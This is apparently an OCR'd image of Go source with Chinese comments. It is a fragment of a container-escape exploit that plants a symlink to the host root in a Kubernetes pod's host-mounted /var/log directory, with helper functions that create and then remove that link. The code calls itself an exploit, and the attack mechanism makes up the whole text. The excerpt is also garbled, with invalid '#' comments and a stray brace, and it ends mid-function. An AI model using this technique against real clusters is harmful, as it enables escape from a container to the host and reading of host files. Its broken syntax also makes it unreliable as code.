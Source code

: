 # 定义一个函数，用于附加到 root 用户
func attachToRoot() string {
    # 获取挂载路径（如果存在）
    path := getMountPathIfExists()
    # 如果路径为空，则返回无法继续利用的提示
    if path == "" {
        return fmt.Sprintf("[!] No root mount to /var/log exists in the pod, cant continute to the exploit\n")
    }
	}
	// 检查当前进程是否为 root 用户
	if isRoot() {
		// 如果是 root 用户，创建一个指向根目录的符号链接
		if err := os.Symlink("/", fmt.Sprintf("%s%s", path, "/root_link")); err != nil {
			// 如果符号链接已经存在，打印提示信息并继续执行 exploit
			if os.IsExist(err) {
				fmt.Println("[i] Symlink already exists , continue to the exploit")
				return ""
			}
			// 如果出现其他错误，打印错误信息
			checkError(err)
		}
	} else {
		// 如果不是 root 用户，返回提示信息
		return fmt.Sprintf("[!] The process is not running as root, cant continute to the exploit\n")
	}

	// 打印创建符号链接成功的提示信息
	fmt.Println("[i] Create symlink succeeded")
	return ""
}

// 从 root 用户中分离
func dettachFromRoot() {
	// 检查是否存在指向 /var/log/host/root_link 的符号链接
	if _, err := os.Lstat("/var/log/host/root_link"); err == nil {
		// 删除指定路径的文件或目录
		err := os.Remove("/var/log/host/root_link")
		// 检查错误
		checkError(err)
	} else {
		// 如果文件或目录不存在
		if os.IsNotExist(err) {
			// 打印消息并结束 exploit
			fmt.Println("[i] Symlink is not exists, ending exploit")
			return
		}
		// 检查错误
		checkError(err)
	}
